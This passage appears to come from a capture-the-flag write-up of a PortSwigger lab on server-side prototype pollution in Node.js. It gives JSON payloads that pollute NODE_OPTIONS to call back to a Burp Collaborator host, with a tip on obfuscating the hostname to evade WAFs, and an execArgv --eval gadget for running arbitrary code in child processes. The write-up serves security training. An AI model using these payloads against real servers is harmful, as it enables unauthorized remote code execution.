 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Prototype-Pollution/Prototype-9/images/Pasted%20image%2020230222195614.png)

As you can see, in the **raw** response JSON data, it has 1 space for the identation! That being said, it's indeed vulnerable to server-side prototype pollution.

### Identify a gadget that you can use to inject and execute arbitrary system commands

In the admin panel, we can run maintenance jobs, which are ***database and filesystem cleanup***.

Database and filesystem cleanup... This got me thinking **it's using OS command to complete that**!

There are a number of potential command execution sinks in Node, many of which occur in the `child_process` module. These are often invoked by a request that occurs asynchronously to the request with which you're able to pollute the prototype in the first place. As a result, the best way to identify these requests is by polluting the prototype with a payload that triggers an interaction with Burp Collaborator when called.

The `NODE_OPTIONS` environment variable enables you to define a string of command-line **arguments** that should be used by default whenever you start a new Node process. As this is also a property on the `env` object, you can potentially control this via prototype pollution if it is undefined.

Some of Node's functions for creating new child processes accept an optional `shell` property, which enables developers to set a specific shell, such as bash, in which to run commands. By combining this with a malicious `NODE_OPTIONS` property, you can pollute the prototype in a way that causes an interaction with Burp Collaborator whenever a new Node process is created:

```json
"__proto__": {
    "shell":"node",
    "NODE_OPTIONS":"--inspect=YOUR-COLLABORATOR-ID.oastify.com\"\".oastify\"\".com"
}
```

This way, you can easily identify when a request creates a new child process with command-line arguments that are controllable via prototype pollution.

> Tip:
>  
> The escaped double-quotes in the URL aren't strictly necessary. However, this can help to reduce false positives by obfuscating the URL to evade WAFs and other systems that scrape for hostnames.

Moreover, methods such as `child_process.spawn()` and `child_process.fork()` enable developers to create new Node subprocesses. The `fork()` method accepts an options object in which one of the potential options is the `execArgv` property. This is an array of strings containing command-line arguments that should be used when spawning the child process. If it's left undefined by the developers, this potentially also means it can be controlled via prototype pollution.

As this gadget lets you directly control the command-line arguments, this gives you access to some attack vectors that wouldn't be possible using `NODE_OPTIONS`. Of particular interest is the `--eval` argument, which enables you to pass in arbitrary JavaScript that will be executed by the child process. This can be quite powerful, even enabling you to load additional modules into the environment:

```json
"execArgv": [
    "--eval=require('<module>')"
]
```
